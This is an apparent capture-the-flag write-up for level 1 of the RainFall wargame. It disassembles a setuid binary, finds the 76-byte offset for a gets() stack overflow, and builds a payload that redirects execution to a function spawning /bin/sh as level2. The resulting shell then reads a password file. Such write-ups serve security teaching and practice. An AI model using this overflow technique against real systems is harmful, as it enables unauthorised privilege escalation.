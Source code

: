 # LEVEL 1

## Initial Exploration

We begin by attempting to read the password of the next level (level2), but our current user (level1) does not have permission to access it:
```sh
level1@RainFall:~$ cat /home/user/level2/.pass
cat: /home/user/level1/.pass: Permission denied
```

Next, we check the file permissions of the level1 binary:
```sh
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
>Notice the setuid permission `rwsr-s---`. This means the program runs with the privileges of the owner of the file `level2`, rather than the current user. This gives us a potential attack vector: we can exploit this program to run commands as level2.


## Disassembling the Binary
To understand how we can exploit this, we need to analyze the binary. First, let’s inspect the disassembly of the main function using GDB:

```sh
level0@RainFall:~$ gdb ./level1
...
(gdb) disassemble main
```

```nasm
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump. 
```
We can see that the main function calls the unsafe **gets()** function to read user input. **gets()** is known for buffer overflow vulnerabilities because it does not check the size of the input, allowing us to overwrite memory beyond the buffer.

**Vulnerability:** Stack Overflow
As the man page for gets() warns, it’s prone to buffer overflows:

*man snippet*:
> **BUGS**
Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.

## Determining the Buffer Size
To exploit the vulnerability, we need to know the size of the buffer that gets() reads. We do this by running the program with different input sizes:
```sh
level1@RainFall:~$ ./level1 
456
level1@RainFall:~$ echo $?
32
level1@RainFall:~$ i=1; x=32; 
level1@RainFall:~$ while ((x==32)); do python -c "print('A'*$i)"  | ./level1 ; ((x=$?)) ; ((i+=1)); done
Illegal instruction (core dumped)
level1@RainFall:~$ echo $i
77
```
From this, we determine that the buffer size is **76** bytes, as the program crashes after 77 bytes of input.


## Investigating the Binary

Next, we list all the functions defined in the binary:

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

We see a user-defined function called **run** that seems to be unused. Let’s explore this function to check if we can exploit it.

```nasm
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```
The run function calls **system()**, which executes a shell command. It’s important to note that **system()** uses the level2 privileges because of the setuid permissions on the level1 binary.

The string passed to system() is stored at memory address **0x8048584**, which points to **"/bin/sh"**:

```nasm
x/s 0x08048584
0x8048584:	 "/bin/sh"
```

## Crafting the Exploit

Now that we know **system() runs the command /bin/sh with the privileges of level2**, we can exploit the buffer overflow to **redirect execution to the run function**. By **overwriting the return address in the main function**, we can force it to jump to run, which will spawn a shell.

We craft the payload with the following:

76 bytes of padding ('A'*76)
The address of the **run** function **0x08048444**, in little-endian format

```sh
level1@RainFall:~$ (python -c "print('A'*76 + '\x44\x84\x04\x08')" ; cat) | ./level1
```

## Gaining Privileges
When the exploit runs successfully, we execute a shell as the level2 user and can now read the password file:
```sh
level1@RainFall:~$ (python -c "print('A'*76 + '\x44\x84\x04\x08')" ; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```